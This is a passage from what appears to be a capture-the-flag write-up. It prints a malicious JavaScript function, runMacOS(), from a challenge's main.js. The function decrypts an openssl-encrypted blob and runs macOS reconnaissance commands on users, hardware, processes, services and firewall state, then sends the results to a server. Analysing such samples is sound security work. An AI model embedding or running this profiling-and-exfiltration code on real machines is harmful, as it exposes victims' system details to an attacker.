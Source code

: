 ![P11](/assets/images/CTF/c2.png)

Checking the `main.js` we can get a function named runMacOS():

```js
async function runMacOS() {
  doCommand(
    "echo U2FsdGVkX18dLoy5VJmru0jW8cEVgMQS5JYhHSk8D369laaZ7d7nBJXslDqS4CFoqIfwoKGM6Urhmx079RXgIA== | openssl enc -aes-256-cbc -d -a -pass pass:infected"
  );
  const commands = [
    ["username", "whoami"],
    ["hostname", "hostname"],
    ["ip", "hostname"],
    ["osys", "sw_vers -productVersion"],
    ["cpu", "sysctl -n machdep.cpu.brand_string"],
    ["ram", "sysctl -n hw.memsize"],
    ["gpu", "system_profiler SPDisplaysDataType | grep Chipset"],
    ["disk", "diskutil info / | grep Total"],
    ["network", "networksetup -listallhardwareports"],
    ["uptime", "uptime"],
    ["processes", "ps aux"],
    ["services", "launchctl list"],
    [
      "firewall",
      "defaults read /Library/Preferences/com.apple.alf globalstate",
    ],
    ["users", "dscl . list /Users"],
    ["groups", "dscl . list /Groups"],
  ];
  const info = await gatherSystemInfo(commands);
  sendToServer(info);
}
```
Take the `doCommand()` function command and execute it you'll get the flag.

![P12](/assets/images/CTF/c3.png)
